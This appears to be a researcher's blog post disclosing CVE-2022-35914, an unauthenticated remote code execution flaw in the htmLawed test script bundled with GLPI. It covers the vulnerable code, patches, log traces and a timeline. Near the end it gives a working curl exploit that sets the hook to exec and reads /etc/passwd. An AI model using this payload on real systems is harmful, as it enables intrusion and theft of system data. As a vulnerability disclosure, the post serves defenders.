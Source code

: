 ```yaml
---
layout: post
title:  "GLPI htmlawed (CVE-2022-35914)"
category : CVE
tags :  CVE, GLPI, CVE-2022-35914
---
```

![glpi_logo](/assets/blog/glpi_logo.png)

## TL;DR;

![glpi_exploit.png](/assets/blog/glpi_exploit.png)

## Infos

On a recent pentest we faced an interesting scope with full up to date products and without any credentials.
After spend some time on bruteforce dns, folders, all the login form and doing all kind of stuff i get nothing interesting.
We found a GLPI product exposed on internet with a very recent vulnerability (an unauthenticated SQL injection, the vulnerability was publicized a week before the pentest, and it was already patched on the scope x_x ).

GLPI is a php solution, the definition given by the vendor is _"GLPI stands for Gestionnaire Libre de Parc Informatique is a Free Asset and IT Management Software package, that provides ITIL Service Desk features, licenses tracking and software auditing."_ This solution is quite used in France and it make it a very good target for our pentest.

Starting on a product with a recent critical vulnerability is not a bad idea to start an investigation. This means the vendor care about patching and he will certainly be reactive if you find something interesting.

After few hours of code digging, i got some interesting things to dig more but nothing to get inside my scope without authentication.
On my research, i start digging on the vendor folder and there, i found a trivial vulnerability in the vendor folder of the GLPI product.


## Context

- The vulnerability is not in GLPI by itself but in the third party library HTMLAWED [https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/](https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/).
- The test script of the library was vulnerable in the version < v1.2.9. **The day I noticed the vendor of this vulnerability he patched the release package and his server.**, he was very reactive and thankful. Thanks to him !
- On GLPI this library is given in the release version with an example script (the composer version does not include this script, but the composer used on GLPI download the all package).

![glpi_composer.png](/assets/blog/glpi_composer.png)

- This will get the last version, so all should be fine no ?
- In fact the GLPI releases include the vendor folder directly on the release. So when you download version <= 9.5.8 or <= 10.0.2 you will get an old version of the library with the source code and also the htmLawedTest.php file with it.

![glpi_vendor.png](/assets/blog/glpi_vendor.png)

## Vulnerability description
- The issue happen when the htmLawedTest.php is present and it is the case by default in glpi 9.x and 10.x (don't know about others) as GLPI directly get it with composer.

- On the GLPI application by default the path `/vendor/htmlawed/htmlawed/htmLawedTest.php` is available to all.

- In htmLawedTest.php the programmer use the user entry to setup the htmlawed configuration and give the users all configurations available to test the product.

```php
# htmlawedTest.php
...
if($do){
 $cfg = array();
 foreach($_POST as $k=>$v){
  if($k[0] == 'h' && $v != 'nil'){
   $cfg[substr($k, 1)] = $v;
  }
 }
...
$out = htmLawed($_POST['text'], $cfg, $_POST['spec']);
```

- As you can see the function htmlLawed is called with all parameters on our control.
- One of the available configuration options is a hook function. If the hook (or hook_tag) is controlled by the user he can setup a php execution where he can control the function name and the parameters (string or array, array, string or array). 

```php
# htmlawed.php
function htmLawed($t, $C=1, $S=array()){
    ...
    $C['hook'] = (!empty($C['hook']) && function_exists($C['hook'])) ? $C['hook'] : 0;
    ...
    if($C['hook']){$t = $C['hook']($t, $C, $S);}
```

- This match almost exactly the [PHP exec function signature](https://www.php.net/manual/fr/function.exec.php) but php is nice on variable types so we can use the exec function as the hook.

```php
exec(string $command, array &$output = null, int &$result_code = null): string|false
```

- So we got a command injection ($t is the user entry) and exec will override $C and $S.
- As $t is replaced with the result of the hook, this is just like a webshell we directly get the result of the command.

![glpi_lawed.png](/assets/blog/glpi_lawed.png)

![glpi_lawed_rce.png](/assets/blog/glpi_lawed_rce.png)

> Please note that there is other ways to exploit the vulnerability without exec, by using callback functions like array_map,call_user_func,... do not rely on disable_function on exec to patch the vulnerability

GLPI release a patch on their github the [14/09/2022](https://glpi-project.org/fr/glpi-10-0-3-disponible/) for glpi 10.0.x ([10.0.3](https://github.com/glpi-project/glpi/releases/tag/10.0.3)) and 9.5.x ([https://github.com/glpi-project/glpi/releases/tag/9.5.9](https://github.com/glpi-project/glpi/releases/tag/9.5.9)). Htmlawed already patched the vulnerability.(The patch in htmlawed was only an unset of the hook and hook_tag parameters coming from the example script, so be careful if you call the function in your code with users parameters).

## Impacts
- The impact of this vulnerability is an unauthenticated remote code execution so it is critical. (CVSS score 9.8)
- If your GLPI is exposed on internet you are on a critical risk (If it is your case, you shouldn't do that. A ticket and IT management software must be limited to internal network or at least should be behind a previous authentication portal).
- Anyway to quickly patch without upgrade you should delete the file /vendor/htmlawed/htmlawed/htmLawedTest.php and search for access to this file in your logs. (I also recommends you to disallow direct access to the vendor folder directly to avoid that kind of vulnerabilities).

## Traces of exploitation
- Search for /vendor/htmlawed/htmlawed/htmLawedTest.php in the logs to get traces of compromising.


## Exploitation

As simple as that :

![glpi_exploit.png](/assets/blog/glpi_exploit.png)


```bash
curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://localhost/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'
```

![glpi_curl.png](/assets/blog/glpi_curl.png)

## Timeline

- 13/07 : 
    - declaration to htmlawed library vendor
    - cve open
    - declaration to glpi vendor
- 13/07: 
    - fix provided by htmlawed vendor
- 14/09:
    - glpi release version 10.0.3 with a fix
- 19/09:
    - CVE-2022-35914 is public
- 01/10:
    - Someone reverse the cve information and publish a public poc on github https://github.com/cosad3s/CVE-2022-35914-poc
- 03/10:
    - As all information are already public i release this blog post before the "1 month after cve is public" safe time i would like to take.


